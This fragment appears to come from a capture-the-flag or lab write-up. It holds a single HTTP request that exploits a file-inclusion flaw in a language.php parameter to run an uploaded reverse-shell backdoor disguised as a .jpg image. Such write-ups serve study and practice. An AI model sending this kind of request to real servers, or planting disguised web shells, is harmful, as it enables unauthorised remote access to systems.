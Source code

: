 ![](../images/artemis/Untitled17.png)

```bash
# Since we are in the same directory, we just need to go to the upload directory and select our backdoor."/uploads/reverseShellA.php5.jpg"
GET /0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/language.php?lang=./uploads/reverseShellA.php5.jpg HTTP/1.1
```
